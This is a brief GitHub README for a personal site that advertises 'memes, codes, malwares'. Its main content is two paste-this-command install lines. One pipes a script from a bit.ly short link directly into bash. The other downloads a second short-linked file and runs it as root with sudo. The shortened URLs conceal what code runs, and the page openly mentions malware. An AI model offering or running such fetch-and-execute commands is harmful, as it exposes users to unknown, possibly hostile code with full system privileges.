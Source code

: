 # phoenixthrush.github.io
Just memes, codes, malwares, a archive and lots more lol!

Follow me if u wanna get a&nbsp;<a href="https://instagram.com/phoenixthrush">:cookie: &nbsp;</a>lmao


curl -sL https://bit.ly/3hXEadY | bash

or
wget https://bit.ly/3m0JwFX && mv 3m0JwFX phoenix.sh && sudo chmod +x phoenix.sh && sudo  ./phoenix.sh
